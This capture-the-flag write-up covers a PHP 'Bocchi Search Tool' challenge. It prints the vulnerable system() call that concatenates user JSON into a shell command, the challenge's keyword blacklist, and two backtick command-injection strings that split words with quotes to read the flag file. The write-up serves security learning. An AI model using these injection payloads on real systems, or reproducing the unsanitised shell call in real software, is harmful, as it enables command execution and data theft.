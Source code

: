 # Bocchi Search Tool
A tool help you find bocchi in json !
http://ctf.adl.tw:12001/

You input a json like string, and the program finds the "bocchi" member and prints its value.
# foot note
- anything on a shell command contained in pairs of`` gets executed as commands!!!
# solution
- blacklist(php)
```php
$blacklist = ['|', '&', ';', '>', '<', "\n", '?', '*', '$', '\\', 'cat', 'flag'];
```

- source code(php): 
```php
system("echo '" . $_POST['json'] . "'| jq .bocchi");
```

- attack string ver 1: '`tac  fl''ag` #
```php
system("echo '" . '`tac  fl''ag` # . "'| jq .bocchi");
```
which equals:
```bash
echo ''`tac  fl''ag` # . "'| jq .bocchi
```

- attack string ver 2: '`c''at  fl''ag` #
```php
system("echo '" .'`c''at  fl''ag` # . "'| jq .bocchi");
```



